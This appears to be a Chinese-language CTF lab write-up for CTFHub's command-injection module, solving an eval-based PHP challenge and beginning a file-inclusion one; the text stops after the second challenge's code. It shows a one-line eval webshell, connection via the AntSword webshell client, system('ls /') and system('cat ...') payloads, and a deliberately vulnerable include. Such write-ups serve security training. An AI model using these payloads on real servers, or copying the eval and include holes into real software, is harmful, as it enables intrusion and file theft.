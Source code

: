 ##  Ctfhub-RCE模块----命令注入  
### eval执行
打开靶机后 发现一段php代码

```python
 <?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?> 
```

#### 第一种解法
其中存在eval函数形式的一句话木马 所以我们可以尝试用中国蚁剑去连接 密码为cmd

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736862959274-26e06712-8ccd-4788-a21e-d296f66ae717.png)

连接着成功后添加数据 在数据的根目录下方发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736863012716-9990f434-a7ff-4bbb-8819-499fe589196b.png)

#### 第二种解法
利用eval可执行php语句的特性

```python
?cmd=system("ls /");
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736918228662-9bf5ce4c-f1c1-487b-8dcc-f7b22e7bf263.png)

发现flag 接着利用cat读取flag

```python
?cmd=system("cat /flag_8908");
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736918324022-479b5955-1de8-4fdb-b815-84e3480a4001.png)

### 文件包含
#### 第一种解法
打开靶机后发现一段php代码

```python
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i have a <a href="shell.txt">shell</a>, how to use it ? i have a shell, how to use it ?
```
